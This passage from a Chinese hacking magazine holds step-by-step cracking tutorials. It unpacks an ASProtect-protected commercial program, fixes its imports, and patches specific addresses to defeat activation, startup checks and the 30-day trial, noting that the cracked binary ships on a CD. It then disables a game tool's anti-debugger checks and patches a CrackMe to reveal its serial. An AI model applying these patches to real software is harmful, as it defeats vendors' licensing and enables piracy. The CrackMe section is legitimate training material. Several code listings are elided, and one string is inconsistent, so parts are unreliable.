现在到了使用“以壳解壳”方法的时机了，请注意看截图 7。


我们将以 00DB8550 处作为脱壳后程序的 OEP！

```asm
00DB8550  BB81020000    mov ebx,281
00DB8555  0BDB          or ebx,ebx
00DB8557  7502          jnz short 00DB855B
```

并且把 00DB8557 处修改为：

```asm
00DB8557  EB02          jmp short 00DB855B
```

- 1. 完整脱壳
- 2. 用 LordPE“修正映像大小”后完全 DUMP 这个 acc.exe 进程，脱壳完毕得到 dumped.exe，如图 8 所示。


图 8

### 2. 区域脱壳

我们既然想利用壳自己来解决 Stolen Code 的问题，当然要把这部分处理 Stolen Code 的壳代码 Dump 下来。同样用 LordPE 选择 acc.exe 进程，然后在右键菜单里选择“区域脱壳”的命令，如图 9 所示。


图 9

脱壳后得到 Region00DB0000-00DC0000.dmp。

> icefire：有朋友问为何要选择 00DB0000 这个区域？很简单，我们将以 00DB8550 处作为脱壳后程序的 OEP，处理 Stolen Code 的壳代码部分就在其下，当然属于 00DB0000-00DC0000 区域了。

### 3. 组装 Dumped.exe

用 LordPE 的 PE 编辑器打开 Dumped.exe 的区段，如图 10 所示。


图 10


图 11

点右键，“从磁盘载入”上面区域脱壳得到的 Region00DB0000-00DC0000.dmp，如图 11 所示。现在编辑这个新的区段，虚拟地址 = 00DB0000 - 基址 00400000 = 009B0000，如图 12 所示。修改其虚拟地址 = 009B0000，保存。然后设置 LordPE 的“重建”选项，只保留“验证 PE”的选项，对 Dumped.exe 重建 PE……


图 12

Dumped.exe 重建 PE，这一步记得一定要小心，错了可就全军覆没了，操作正确会弹出“重建完成”的成功提示。OK，dumped.exe 组装完毕，Dump 工作完成。

> icefire：区域脱壳的地址和修改的虚拟地址一定不能有误，曾有朋友无法顺利完成“以壳解壳”的操作，结果就是这部分出的问题！

### 修复输入表，完成脱壳

用 AsprDbgr 来搞定 ASProtect V1.23RC4 加壳程序的输入表比较方便，现在可以关闭 OllyDbg 了。运行 AsprDbgr V1.06.exe，选择 Acc.exe，在 AsprDbgr 弹出的提示中一路点“是”或者“确定”，直至 acc.exe 出现试用期提示窗口，如图 13 所示。


图 13

接下来看看 AsprDbgr 的提示，如图 14 所示。


图 14

运行 ImportREC，选择 AsprDbgr 启动的 acc.exe 进程。填入 RVA=00532000-基址00400000=00132000，大小=00000A74，点“获取输入表”，可以看到函数都是有效的。先保存这个树文件（可能是由于 AsprDbgr 的缘故，获得的输入表遗漏了 deucidll 的 3 个函数！）……重新单独运行 acc.exe，用 ImportREC 填入 RVA=00132194，大小=0000000C，就可以得到 3 个被遗漏的函数了，保存这 3 个……函数的树文件）。现在我们来手动处理一下树文件，用记事本打开上面得到的 2 个树文件，复制那 3 个遗漏的函数，粘贴到第一个树文件的 0013218C 下面，保存，这样我们就得到了完整的树文件。

> 下面这个函数需要修改，否则脱壳后的程序无法在 Windows 9x 系统上运行。001321FC kernel32.dll 02AC RestoreLastError。直接在 ImportREC 双击 001321FC 处，打开“输入表编辑器”，修改其为 SetLastError。

OK，现在可以修改 OEP=009B8550 了。为啥要改成这个值？在第二步已经说过，我们将以 00DB8550 处作为脱壳后程序的 OEP，00DB8550-基址 00400000=009B8550。现在可以“修复抓取文件”了，得到 dumped_.exe。比较幸运的是，这个程序没有发现暗桩，省掉了暗桩修复的麻烦。脱壳胜利完成了！

### 破解

这个程序有 30 天的试用期，启动时弹出 NAG 提示。脱壳后虽然已经没有时间限制了，但是 NAG 看着不爽，那就继续破解吧。

- 1. 激活时的破解

用 Ollydbg 载入脱壳后的程序，开始注册。填入注册名和试用码后，选择“Activate Now”，选择不连接 Internet 进行激活，填入激活码，“下一步”后当然是注册失败啦，如图 15 所示。


在 Ollydbg 里面搜索这个失败提示，虽然有好几处，但不难找到关键跳转。为了节约版面，就不说详细的调试过程了，只列出修改部分，大家可以自己跟踪一下。

```
（1）00433E83 处的修改
原：cmp dword ptr ds:[edx+1B0],0 / jnz dumped_00433FD7
改：mov dword ptr ds:[edx+1B0],0 / jmp dumped_00433FD7
```

```
（2）00434090 处的修改
原：cmp dword ptr ss:[ebp-20],0 / je short dumped_...
改：cmp dword ptr ss:[ebp-20],0 / nop / nop
```

```
修改为：
00434090  837D E0 00      cmp dword ptr ss:[ebp-20],0
00434094  90              nop
00434095  90              nop
```

```
（3）0043413E 处的修改
原代码块包含：sete al / movzx ecx,al / test ecx,ecx / jnz short dumped_...
下方对该跳转进行改写。
```

```
修改为：
0043413E  E9 07010000     jmp dumped_...
0043424A  90              nop
```

修改以上三处后，就提示激活成功了，直接用 Ollydbg 保存修改的部分。

- 2. 重启验证的破解

重新启动程序后居然还有要求注册的 NAG。看来程序启动时还有验证。注册信息保存在 Dumped_.ini 文件中，打开后可以看见如下信息：

```
[Registration]
RegistrationName=fly
RegistrationCode=13572468
```

重新载入脱壳后的程序，搜索“RegistrationCode”字符串。经过分析，找到下面的关键修改点。

```
（1）00408974 处的修改
原代码块：... cmp dword ptr ds:[...],0 / sete cl / push ecx / push ...
```

```
修改为：
00408974  B1 00           mov cl,0
00408976  90              nop
```

```
（2）00403BE2 处的修改
原代码块：... sete cl / movzx eax,cl / neg eax / sbb eax,eax ...
```

修改为：

```
00403BE2  B1 01           mov cl,1
00403BE4  90              nop
```

（3）00408A25 处的修改

```
004089D9  833D 38F9FFFF 00       cmp dword ptr ss:[ebp-6C8],0
004089E0  74 32                   je short ...
...
00408A25  837D D8 1E              cmp dword ptr ss:[ebp-8],1E
00408A29  0F8E C9010000           jle ...
...
00408A36  0F85 3BC01000           jne ...
```

这部分修改为：

```
00408A25  C745 E8 00000000        mov dword ptr ss:[ebp-18],0
00408A2C  C785 38F9FFFF 02000000  mov dword ptr ss:[ebp-6C8],2
00408A36  E9 BD010000             jmp ...
00408A3B  90                      nop
```

为何要这样修改？呵呵，比较部分在下面：

```
00408C44  8B8D 38F9FFFF           mov ecx,dword ptr ss:[ebp-6C8]
00408C4A  898D ACF6FFFF           mov dword ptr ss:[ebp-954],ecx
```

```
00408C50  83BD ACF6FFFF 00        cmp dword ptr ss:[ebp-954],0
00408C57  74 12                   je short ...
00408C5B  83BD ACF6FFFF 02        cmp dword ptr ss:[ebp-954],2
00408C62  0F84 A6010000           je ...
00408C66  E9 0D020000             jmp ...
```

OK！现在启动的时候不再有 NAG 了，破解完毕，如图 16 所示。


图 16

### 后记

> UnPacked-Cracked-acc.exe 已经放入光盘，仅供大家参考。因为我不使用这个程序，所以不清楚程序是否还有功能限制。这篇文章主要演示的是用“以壳解壳”的方法简便处理 ASProtect V1.23RC4 的 (Stolen Code) 问题……Cheers!

## 实用 Windows XP 管理员密码恢复方法

文/图 renwoxin  
网上很多文章提出删除 Windows\System32\Config\SAM 可以恢复 Windows XP 的管理员密码……本文介绍了通过替换 SAM 文件恢复 Administrator 密码为空的思路与实践。

| 适合读者 | 破解爱好者 |
|---|---|
| 前置知识 | 汇编代码阅读 |
| 难度等级 | 中 |

## 亮剑软件


> Icefire：软件制作者为了保护自己的劳动成果，在软件加密中越来越多地引入了反跟踪调试技术……本文以“科洛斯之神——游戏伴侣”为例，看看软件作了哪些手脚，可以怎么处理它。

文/图 老学童 [NukeGroup]

## ——从“科洛斯之神——游戏伴侣”反跟踪调试功能看软件破解

前日，一位网友大概是为玩游戏急红了眼，说是“科洛斯之神——伴侣”中存在暗桩，并反编译、反调试，让我给看看。正好我也想整理一篇关于软件设置反调试代码的文章，所以就答应试试看……

```
73D3B4AE PUSH EDI
73D3B4AF OR EBX, FFFFFFFF
73D3B4B2 CALL MFC42.#1175
73D3B4B7 MOV ESI, EAX
73D3B4B9 CALL MFC42.#1168
...
73D3B4F0 CALL DWORD PTR DS:[EAX+58]
```

> 《科洛斯》是个 MMORPG 游戏……在游戏故事方面构置了较有特色的形态，提供 100 多种故事。

### 在哪里能找到它

方法：用 Ollydbg 载入，粗跟与细跟相结合。粗跟走 F8；F7 细跟也。遇到 CALL，记好偏移地址，F8 过不去，那就 F7 进。

注意这里的蹊跷，回调主程序了。不能过，跟着反回来。回来后，这里的代码如下所示（注意偏移地址，为便于说明，多复制了几段）：

```
004207E2 PUSH EAX
004207E3 CALL 1.004208C0
004207E8 MOV DWORD PTR SS:[EBP-68],EAX
004207EB PUSH EAX
```

```
00407790 PUSH EBP
00407791 MOV EBP,ESP
00407793 PUSH -1
00407795 PUSH 1.00420D69
...
004077BF ADD BYTE PTR DS:[EAX],AL
```

到这里，得进：

```
004208C0 PUSH DWORD PTR SS:[ESP+10]
004208C4 PUSH DWORD PTR SS:[ESP+10]
004208C8 PUSH DWORD PTR SS:[ESP+10]
004208CC PUSH DWORD PTR SS:[ESP+10]
004208D0 CALL <JMP.&MFC42.#1576>
004208D5 RETN 10
```

进来后，来到这里：

```
73D3B4AC PUSH EBX
73D3B4AD PUSH ESI
```

```
asm
004077C1  ADD BYTE PTR DS:[EAX],AL
004077C3  ADD BYTE PTR DS:[EAX],AL
004077C5  JS SHORT 1.00407837
004077C7  JB SHORT 1.00407838
004077C9  JMP SHORT 1.004077DB
...
004077DB  JMP SHORT 1.004077ED
```

```
asm
00409217  CALL 1.00407750
0040921C  JMP SHORT 1.00409233
00409269  PUSH 1
0040926B  PUSH 1.00429330   ; ASCII "efcvh"
00409270  CALL 1.00407750
...
00409594  CALL 1.00407750
00409599  JMP SHORT 1.004095B0
```

像这样的绝对跳转每轮都有几十个，在每轮跳转中间又夹杂一些系统函数调用，所以跟踪时要有心理准备，不能操之过急，而每两个绝对跳转之间夹杂的是花指令。这里夹杂着个假动作，进去没做什么大事就回来了：

```
asm
004088E4  JB SHORT 1.00408955
004088E6  LEA ECX,DWORD PTR SS:[EBP-10]
004088E9  CALL <JMP.&MFC42.#540>
004088EE  MOV DWORD PTR SS:[EBP-4],0
004088F5  JMP SHORT 1.00408907
```

以上过程很长，绝大部分代码省略。特别值得说明的是，中间设置了一个定时器，这个定时器设置了一个暗桩，如果你是缓慢跟踪，则可以到达以下代码处。在你不知道关键点的时候，如果你想来快点，程序却很容易“跑飞”。

一直跟到这里，才看见值得怀疑的代码（为减少篇幅，除第一段及主要部分外，其余跳过的部分省略）：

```
asm
0040914C  JMP SHORT 1.0040915E
0040914E  JS SHORT 1.004091C0
00409150  JB SHORT 1.004091C1
00409152  PUSH ES
00409153  ADD BYTE PTR DS:[EAX],AL
...
0040915C  JB SHORT 1.004091CD
```

### 解密跟踪调试软件标题符

注意这里：

```
asm
0040915E  PUSH 1
00409160  PUSH 1.004292D0   ; ASCII "xetn"
00409165  CALL 1.00407750   ; 解密函数
```

上下翻滚着看看，发现每一次都调用同一函数。调用时各自压入不同的字符串，出来后这些字符串分别变成了调试软件的标题字符串，所以值得进去看看。

```
asm
0040916A  JMP SHORT 1.00409181
004091B7  PUSH 1
004091B9  PUSH 1.004292F0   ; ASCII "tpgudt"
004091BE  CALL 1.00407750
004091C3  JMP SHORT 1.004091DA
00409210  PUSH 1
00409212  PUSH 1.00429310   ; ASCII "usx"
```

解密函数：

```
asm
00407750  PUSH ESI
00407751  MOV ESI,DWORD PTR SS:[ESP+8]
00407755  PUSH EDI
00407756  MOV EDI,ESI
00407758  OR ECX,FFFFFFFF
0040775B  XOR EAX,EAX
0040775D  REPNZ SCAS BYTE PTR ES:[EDI]
0040775F  NOT ECX
00407761  DEC ECX
00407762  TEST CX,CX
00407765  JBE SHORT 1.00407784
...
```

```
asm
0040776E  AND ECX,0FFFF
00407774  MOV BL,BYTE PTR DS:[EAX]
00407776  SUB BL,DL
00407778  MOV BYTE PTR DS:[EAX],BL
0040777A  INC EAX
0040777B  DEC ECX
0040777C  JNZ SHORT 00407774
0040777E  POP EBX
0040777F  MOV EAX,ESI
00407781  POP EDI
00407782  POP ESI
00407783  RETN
```

这个函数所作的工作非常简单，将每个字符的 ASCII 值减 1，再存回去，作为后面判断是否被调试的参照。

### 防调试软件清单

解密前：

```
text
004292D0 78 65 74 6E ...         xetn
004292F0 74 70 67 75 6A 64 ...   tpgujdf
00429310 75 73 78 ...            usx
00429330 65 66 63 76 68 ...      efcvh
00429350 74 70 76 73 64 66 ...   tpvsdfs
...
```

解密后：

```
text
004292D0 77 64 73 6D ...               wdsm
004292F0 73 6F 66 74 69 63 65 ...      softice
00429310 74 72 77 ...                  trw
00429330 64 65 62 75 67 ...            debug
00429350 73 6F 75 72 63 65 72 ...      sourcer
00429370 66 69 6C 65 6D 6F 6E ...      filemon
...
```

到这里，我们可以大概测算一下有些什么办法搞定它？

- 1. 改变加密的字符串，使参照失效。例如，改 xetn 为 1etn，解密出的是 0dsm，则防调试代码部分不会理会 wdsm。
- 2. 改变解密算法，使其解出错误的字符串。

```
asm
将代码：
00407767  MOV DL,BYTE PTR SS:[ESP+10]
改为：
00407767  MOV DL,0
```

则取消了解密，后面用未解密的字符串与跟踪调试软件的标识符比较，自然得不出正确的结果。如果上面不做任何修改，在准备好参照字符串后，会来到下面要讲述之处。

### 进程标识检查

下面是检查各种破解软件的代码，值得借鉴。

```
asm
0040D003  LEA EDI,[EBP-20C]
0040D009  OR ECX,FFFFFFFF
0040D00C  XOR EAX,EAX
0040D00E  LEA EDX,[EBP-108]
0040D014  REPNE SCAS BYTE PTR ES:[EDI]
...
0040D033  CALL [MSVCRT.strlwr]
...
0040D04F  PUSH EDX
0040D050  CALL EBX
0040D16B  JE SHORT 0040D195
```

如果上面的跳转跳向了这里，则调试软件会被关闭。

```
asm
0040D173  PUSH 0
0040D175  PUSH EAX
0040D176  PUSH 0
0040D178  PUSH 1F0FFF
0040D17D  CALL [KERNEL32.OpenProcess]
0040D183  PUSH EAX
0040D184  CALL [KERNEL32.TerminateProcess]
...
0040D1A0  CALL [KERNEL32.Process32Next]
0040D1A5  TEST EAX,EAX
0040D1A7  JNZ 0040D003
```

程序只要查出与内定的标识符相同的软件，不论自己是否被调试，一律关闭这个软件，阻止自身被调试跟踪。

### 怎么对付它

- 1. 修改所有代码，修改 `JNZ SHORT 1.0040D16D` 为 `NOP`，修改 `0040D16B JE SHORT 1.0040D195` 为 `0040D16B JMP SHORT 1.0040D195`，让程序略忙一回。
- 2. 不让程序执行这段代码，使其刚要执行这段代码时立即返回。只需找到这段子程序入口，将其修改成返回指令即可。

```
0040CFA0  55              PUSH EBP
0040CFA1  8BEC            MOV EBP,ESP
0040CFA3  81EC 30020000   SUB ESP,230
0040CFA9  53              PUSH EBX
```

改为：

```
0040CFA0  C3              RETN
0040CFA1  8BEC            MOV EBP,ESP
0040CFA3  81EC 30020000   SUB ESP,230
0040CFA9  53              PUSH EBX
```

这样就可以达到不执行这段代码的目的了。目前很多软件添加了反调试代码，但手法各不相同，与软件制作者方法及能力有极大关系。有的宜修改字符串，有的宜修改代码，实际应用中应相机行事，不可生搬硬套。尤其是一些主程序与 dll 互相监督的情况下，尽量使用修改字符串的方法进行处理。

## 软件逆向工程进阶之“坦白从宽”篇

| 项目 | 内容 |
|---|---|
| 适合读者 | 破解爱好者 |
| 前置知识 | 汇编代码阅读能力 |
| 难度等级 | 中 |


文／堆栈的栈

大家看了本文的标题一定感到很不解，软件破解也有“坦白从宽”吗？到底是什么意思呢？不要心急，且听笔者慢慢道来。相信大家看了这么长时间的《黑客防线》，一定对软件破解有了相当的了解。今天我们的主题是通过修改目标程序，利用程序本身的功能，使其自己显示正确的注册码——也就是让它“坦白从宽”！

这一次的目标是 Brad Soblesky 的 CrackMe01，首先还是用 FileInfo 3.0 来查看，结果如图 1 所示。


图 1

该软件没有加壳，是 VC 编写，直接用 Ollydbg 加载跟踪即可。这个 CrackMe 非常简单，下面直接来分析主要算法部分。

```
0040152D  8B15 20304000   MOV EDX,DWORD PTR DS:[403020]
00401533  8955 E4         MOV DWORD PTR SS:[EBP-1C],EDX
00401536  A1 24304000     MOV EAX,DWORD PTR DS:[403024]
...
```

```
403024   // 分成三段，放入堆栈中
0040153B  8945 E8         MOV DWORD PTR SS:[EBP-18],EAX
0040153E  66:8B0D 283040  MOV CX,WORD PTR DS:[403028]
00401545  66:894D EC      MOV WORD PTR SS:[EBP-14],CX
00401549  6A 0A           PUSH 0A
0040154B  8D55 F4         LEA EDX,DWORD PTR SS:[EBP-C]
0040154E  52              PUSH EDX
0040154F  68 E8030000     PUSH 3E8
00401554  8B4D E0         MOV ECX,DWORD PTR SS:[EBP-20]
00401557  E8 A8050000     CALL <JMP.&MFC42.#3098>
0040155C  8D45 F4         LEA EAX,DWORD PTR SS:[EBP-C]
0040155F  50              PUSH EAX
00401560  FF15 04204000   CALL DWORD PTR DS:[<&KERNEL32.lstrlenA>]
00401566  8945 F0         MOV DWORD PTR SS:[EBP-10],EAX
00401569  837D E0 01      CMP DWORD PTR SS:[EBP-10],1
0040156D  73 16           JNB SHORT ...
...
```

```asm
00401576  68 34304000    PUSH CRACKME.00403034
ASCII "Enter Registration Number"
...
00401595  75 16          JNZ SHORT CRACKME
...
004015C4  C3             RETN
```

这个 CrackMe 真的是非常简单，对于破解而言是一个入门级，但我们今天不是来学习破解技巧的。下面就让我们来修改该程序，使它自己说实话。

通过上面的分析我们可以发现，通过修改两处 MessageBox 函数的调用，利用程序本身的功能，使其自己显示正确的注册码。那么又该如何修改呢？首先，我们需要知道显示提示框的 API 函数原型。

```c
int MessageBox(
  HWND hWnd,
  LPCTSTR lpText,
  LPCTSTR lpCaption,
  UINT uType
);
```

举个例子，如果使用 `MessageBox(0,"CrackMe","Correct way to go!!",MB_ICONEXCLAMATION);` 的话，就会显示如图2所示的提示窗口。接着我们再来看汇编代码。


```asm
00401597  6A 40          PUSH 40
00401599  68 50304000    PUSH CRACKME.00403050
ASCII "CrackMe"
```

```asm
0040159E  68 58304000    PUSH CRACKME.00403058
ASCII "Correct way to go!!"
004015A3  8B4D E0        MOV ECX,DWORD PTR SS:[EBP-20]
004015A6  E8 53050000    CALL <JMP.&MFC42.#4224>
```

我们完全可以和上面的参数定义对照来看。通常汇编中通过堆栈或者寄存器传递函数参数。对于修改这个 CrackMe，让它“坦白”，可以通过修改上面的参数来实现，既可以改标题，也可以改主体。

接着我们开始动手修改。使用 UltraEdit 打开 CrackMe.exe，先看需要修改的偏移地址。

```asm
00401576  68 34304000    PUSH CRACKME.00403034
ASCII "Enter Registration Number"
```

```asm
004015AE  68 6C304000    PUSH CRACKME.0040306C
ASCII "CrackMe"
```

我们使用 UltraEdit 搜索菜单下的“转到行/页”菜单，出现如图3所示窗口，输入 `0x1576` 后定位到图4所示位置。


光标停在 `68` 处，这对应 `PUSH CRACKME.00403034` 的机器码 `68 34304000`（低位在前）。将 `34304000` 修改为 `20304000`，第一处就修改完成。


按同样步骤修改第二处，将 `6C304000` 改为 `20304000`，另存为 `CrackMe1.exe`。运行后可见 CrackMe 已“举手投降，坦白交代”，如图6、图7。


最后，作者强调：想成为破解高手，汇编知识必不可少。本文仅作入门示例，水平有限，如有错误请谅解并欢迎指正。

